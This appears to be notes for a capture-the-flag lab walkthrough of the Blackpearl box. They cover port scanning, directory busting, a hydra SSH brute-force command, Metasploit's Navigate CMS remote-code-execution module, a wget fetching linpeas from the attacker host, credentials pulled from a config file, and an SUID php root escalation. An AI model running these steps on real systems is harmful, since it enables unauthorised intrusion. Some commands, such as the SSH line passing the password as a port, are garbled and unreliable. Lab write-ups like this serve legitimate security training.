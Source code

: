 
**nmap -A -p- 192.168.86.199**
   '''
   PORT   STATE SERVICE VERSION \
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) \
    | ssh-hostkey: \
    |   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA) \
    |   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA) \
    |_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519) \
    53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux) \
    | dns-nsid: \
    |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian \
    80/tcp open  http    nginx 1.14.2 \
    |_http-title: Welcome to nginx! \
    |_http-server-header: nginx/1.14.2 \
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel \
    '''
---
**ffuf - No good**
---
**HTML**
    'http://<ip>
    + <body>
    + <!-- Webmaster: alek@blackpearl.tcm -->
    + <html>'
---
**Gobuster**
`gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"`
/secret               (Status: 200) [Size: 209]
    'DL file:
        OMG you got r00t !
        Just kidding... search somewhere else. Directory busting won't give anything.
       <This message is here so that you don't waste more time directory busting this particular website.>'
---
**Hydra**
`hydra -hydra -l alek -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.199`
---
**DNSRECON**
`dnsrecon -r 127.0.0.0/24 -n 192.168.86.199 -d extra` (-d is domain && any domain is required) #**Virtual Host Routing** \
             '''
        [*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255 \
        [+] PTR blackpearl.tcm 127.0.0.1 \
        [+] 1 Records Found' \
             '''
   
1. **sudo vi /etc/hosts** \
        <ip>    blackpearl.tcm \
        visit http://blackpearl.tcm \
            Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 
        fuff once again:
            /nagivate - login.php ( Navigate CMS v2.8, © 2021)
                    #Always google new environment
                https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/  
        `msfconsole use exploit/multi/http/navigate_cms_rce`
        `set domain - blackpearl.tcm : run`
                
 2. **meterpreter > shell:** \
        'python -c 'import pty;pty.spawn("/bin/sh")'' 
            - pwd: ~/blackpearl.tcm/navigate 
            - ls -alth #This directory has higher permissions
        'wget http://<ip>/linpeas.sh linpeas.sh' # upload privecs
   
 3. **linpeas.sh:**
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_PASSWORD', "H4x0r");
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_USERNAME', "alek");
        + 'show databases; show tables; use navigate'
                'select * from nv_users; ::
                 alek && PW: 26f1e0e7b718d27e0428e1b3b4b3f677 #wasted time to break hash'
   
 4. **ssh alek@<ip> -p H4x0r**:: **Success**
            `find / -perm /6000 2</dev/null` ![GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
                #/php - GTFObins - click php -> SUID
            `/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`  # **Success**
   '''
                        $ whoami::
                          root
                        $cd root/ && cat flag.txt ::
                            'Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box \ 
                             is mainly to teach about Virtual Host Routing which is used in a lot of CTF.'
   '''

                    
